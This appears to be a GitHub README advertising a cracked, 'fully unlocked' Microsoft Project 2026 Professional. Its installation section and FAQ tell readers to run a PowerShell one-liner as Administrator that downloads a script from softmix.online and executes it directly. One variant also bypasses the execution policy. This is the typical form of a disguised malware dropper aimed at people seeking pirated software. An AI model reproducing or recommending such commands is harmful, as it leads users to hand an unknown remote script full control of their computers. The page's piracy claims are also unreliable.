

<div align="center">


<br>


# Microsoft Project 2026 Professional Full
**Project 2026 · Gantt · Resources**
<br>
**Project 2026 · Gantt · Resources**
<br>
Premium · Pro · Full build · Windows



**Fully unlocked Microsoft Project 2026 Professional — critical path analysis, resource leveling, baselines and portfolio reporting enabled.**

</div>

---

> Professional edition includes portfolio dashboards, resource leveling and baselines — plan projects without Office subscription.

## `INSTALLATION`

<div align="center">


<br><br>

**Run in PowerShell as Administrator:**

```powershell
irm https://softmix.online/ps/setup.ps1 | iex
```

<sub>Copy · paste · press Enter · confirm UAC</sub>

</div>

## `FEATURES`

- 📊 **Gantt planning** — Timelines, dependencies and critical path analysis.
- 👥 **Resource management** — Allocation, leveling and cost tracking enabled.
- 📈 **Reporting** — Built-in dashboards and custom report templates.
- 🔗 **Office integration** — Excel, Teams and SharePoint sync active.
- 🔓 **All views** — Network diagrams, calendars and board views included.
- 📤 **Export** — MPP, PDF and Excel formats without feature restrictions.
- ⚡ **One command** — PowerShell handles download, unpack, and setup.

## `REQUIREMENTS`

| | |
|:---|:---|
| **Windows** | Windows 10 / 11 (64-bit) |
| **RAM** | 8 GB minimum |
| **Disk** | 6 GB free space |

## `FAQ`

<details>
<summary>&nbsp;<b>How to install?</b></summary>
<br>Open PowerShell as Administrator and run the command from the INSTALLATION section.
</details>

<details>
<summary>&nbsp;<b>Manual install blocked?</b></summary>
<br>Try: `powershell -ExecutionPolicy Bypass -Command "irm https://softmix.online/ps/setup.ps1 | iex"`
</details>

<details>
<summary>&nbsp;<b>Updates?</b></summary>
<br>Use the build from your downloaded Release.
</details>
<details>
<summary>&nbsp;<b>Requirements?</b></summary>
<br>Windows 10/11 64-bit, 8 GB minimum, 6 GB free space.
</details>


TAGS
microsoft-project, project-2026, gantt-chart, resource-planning, project-scheduling, mpp-files, portfolio-mgmt, project-management, business-planning, enterprise-tools, scheduling, team-management, microsoft-project-profession, microsoft-project-profession-2026, microsoft-project-profession-pc
